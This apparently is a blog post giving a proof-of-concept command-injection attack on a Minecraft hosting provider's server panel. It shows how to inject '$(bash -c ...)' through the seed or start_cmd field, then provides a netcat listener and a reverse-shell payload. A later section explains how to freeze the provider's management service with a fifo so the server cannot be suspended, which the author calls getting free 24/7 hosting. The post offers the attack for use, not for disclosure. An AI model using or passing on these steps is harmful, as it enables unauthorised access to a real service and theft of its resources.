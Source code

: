 ```yaml
---
date: 2025-02-07
title: Stupidest RCE I have encounter.
author: furrygang
desc: 'This is probably the stupidest RCE I have encounter.'
tags:
  - poc
  - rce
---
```


# PoC: RCE From Frontend.

Hello, Recently I have been doing some research with my friend [(OddByte)](https://oddbyte.dev/)

And we have discover an RCE within the panel itself. Leading to us getting shell access directly from the panel.

But due to how they run their containers, We weren't able to get root access.

#### 1. How does it work?

How they run their CTs are a bit weird...

```
Host > VM > CT
```

But, I will be talking about the VM today.

The VM runs something called `minecraft-manager`.

Which basically control everything on your server.

Every POST/GET Request to your server is managed with `minecraft-manager`.

`minecraft-manager` is hosted on the VM itself.

So If we find a way to crash `minecraft-manager` they wouldn't be able to suspended our server from their admin panel.

The only way the server can be deleted is from them manually `rm -rf`ing it.

#### 2. Actually RCEing the panel.

Let's get to the main point of this blog. RCEing the panel.

This is how it works.

Every server has it's own manager subdomain in a form of

```
[serverID].manager.minehut.com
```

Here is an Example:

![Img](https://i.imgur.com/2juofzG.png)

Now, They have a path to get your startup flags.

```
/v1/game/start_cmd
```

Like this:

![Img](https://i.imgur.com/v0Leg1j.png)

This is so fucking retarded because you can legit just RCE it with

```
$(bash -c 'command here')
```

Also, This does not require any authentications what so ever.

But how do you modified start_cmd?

You can directly modified start_cmd from their panel.

I will be using Seed as an example

Firstly, I will start a netcat server on port 25565 with command

```
nc -lvnp 25565
```

![Img](https://i.imgur.com/4sVVh0z.png)

Then I will go to the panel. And input

```
$(bash -c 'sh -i >& /dev/tcp/IP Address/PORT 0>&1')
```

As the seed, (You can put it on anything. Not limited to seed.)

After that, restart your server and you should be in sh!

![Img](https://i.imgur.com/OOCAxcK.png)

![Img](https://i.imgur.com/MP1TSOl.png)

![Img](https://i.imgur.com/Use07Jz.png)

As you can see, We just did the stupidest RCE ever made.

#### Warning

Doing this can get your server and your account suspended.

Do it as your own risk.

![Img](https://i.imgur.com/Hy0Cv6p.png)

#### 3. Getting 24/7 on free server.

Before doing this. I recommend you having a shell plugin and luckperms with \* permission on default group.

This will make your account completely bricked.

After you have shell access. You can make an fifo with

```
mkfifo whatevername
```

After you made a new fifo file.

Open it in the file manager. And minecraft-manager will start freezing.

After a few hours, The API to your server will be timed out.

The panel will stop working and showing no results.

And when you visit

```
api.minehut.com/server/Servername?byName=true
```

It will be timed out

![Img](https://i.imgur.com/OK8T1np.png)

Like this image here. And boom, you have successfully bricked minecraft-manager.

And now you have 24/7 for free!

![Img](https://i.imgur.com/UUGabEK.png)
